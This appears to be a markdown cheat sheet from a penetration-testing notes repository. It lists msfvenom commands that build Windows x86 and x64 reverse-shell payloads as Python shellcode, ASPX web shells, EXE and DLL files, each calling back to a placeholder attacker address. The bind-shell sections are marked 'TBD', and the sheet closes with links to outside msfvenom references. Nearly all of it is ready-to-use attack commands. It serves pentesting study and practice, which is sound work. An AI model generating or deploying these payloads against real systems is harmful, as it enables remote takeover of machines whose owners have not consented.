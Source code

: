 # Msfvenom

## Windows payloads

### x86

#### Reverse shell

```bash
# Python - variable $shell - bad chars
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe

# Dll
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f dll -o revshell.dll
```

#### Bind

```bash
TBD
```

### x64

#### Reverse shell

```bash
# Python - variable $shell - bad chars
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -b '\x00\x09\x0a' -f python -v shell

# Aspx
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f aspx -o aspxshell.aspx

# Exe
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe

# Dll
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=<LOCAL_PORT> -f dll -o revshell.dll
```

#### Bind

```bash
TBD
```

## Links

- [HackTricks - MSFVenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)
- [infinitelogins - MSFVenom](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
